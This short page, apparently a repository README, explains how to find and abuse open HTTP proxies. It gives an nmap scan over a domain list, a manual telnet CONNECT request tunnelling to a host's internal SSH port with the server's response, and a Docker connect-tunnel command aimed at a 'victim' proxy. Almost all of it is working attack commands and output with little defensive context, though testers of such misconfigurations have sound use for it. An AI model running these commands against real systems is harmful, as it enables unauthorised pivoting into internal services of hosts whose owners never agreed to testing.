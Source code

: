 
# Find such issues

`nmap --script http-open-proxy -p80,443,8080 -iL /tmp/domains.txt`


# Exploit it manually

```
telnet <vulnerable ip> 8080
CONNECT 127.0.0.1:22 HTTP/1.1
```

Response
```
HTTP/1.1 200 Connection established
Proxy-agent: Proxy+ 2.50
SSH-2.2-OpenSSH_5.1p1 Debian-8
```

# Exploit automatically

`docker build -t whitespots/connect-tunnel .`
`docker run -it --rm --name connect-tunnel whitespots/connect-tunnel -P victim:8080 -T hostport:target:port -v`

[Read more about this tool](http://manpages.ubuntu.com/manpages/bionic/man1/connect-tunnel.1p.html)
